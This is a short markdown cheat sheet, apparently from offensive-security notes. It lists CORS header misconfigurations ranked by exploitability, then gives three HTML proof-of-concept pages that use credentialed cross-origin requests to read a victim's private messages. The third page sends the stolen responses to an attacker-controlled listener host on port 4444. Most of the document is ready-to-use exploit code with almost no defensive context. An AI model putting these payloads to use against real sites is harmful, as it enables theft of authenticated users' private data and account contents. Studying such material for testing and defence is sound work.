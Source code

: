 Very useful scheme from @emgeekboy:

**POORLY IMPLEMENTED, BEST CASE FOR ATTACK:**
```
Access-Control-Allow-Origin: https://attacker.com
Access-Control-Allow-Credentials: true
```

**POORLY IMPLEMENTED, EXPLOITABLE:**
```
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

**BAD IMPLEMENTATION BUT NOT EXPLOITABLE:**
```
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
or just
Access-Control-Allow-Origin: *
```

**EXPLOIT #1**
Simple alert popup.

```
<html>
<script>
var xhttp = new XMLHttpRequest();
xhttp.open("GET", "https://vulnerable.web/private-messages", true);
xhttp.withCredentials = true;
xhttp.onload = function () {
alert(this.responseText);
};
xhttp.send();
</script>
</html>
```

**EXPLOIT #2**
CSRF Button and alert popup.

```
<!DOCTYPE html>
<html>
<head>
<script>
function cors() {
var xhttp = new XMLHttpRequest();

xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
document.getElementById("demo").innerHTML = alert(this.responseText);
}
};
xhttp.open("GET", "https://vulnerable.web/private-messages", true);
xhttp.withCredentials = true;
xhttp.send();
}
</script></head>
<center>
<h2>CORS POC#2 EXPLOIT CSRF</h2>
<h3>Extract Authenticate Data</h3><div id="demo">
<button type="button" onclick="cors()">Exploit</button></div></body></html>
```

**EXPLOIT #3**
CSRF Button and a simple server to listen.

```
<!DOCTYPE html>
<html>
<head>
<script>
function cors() {
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
//document.getElementById("demo").innerHTML = alert(this.responseText);
var nano = new XMLHttpRequest();
nano.open("GET", "http://mycollaborator.web:4444/?c=" + this.responseText, true);
nano.withCredentials = true;
nano.send();
}
};
xhttp.open("GET", "https://vulnerable.web/private-messages", true);
xhttp.withCredentials = true;
xhttp.send();
}
</script></head>
<center>
<h2>CORS POC#3 Exploit EXFILTRATION</h2>
<h3>Extract Authenticate Data</h3><div id="demo">
<button type="button" onclick="cors()">Exploit</button></div></body></html>
```
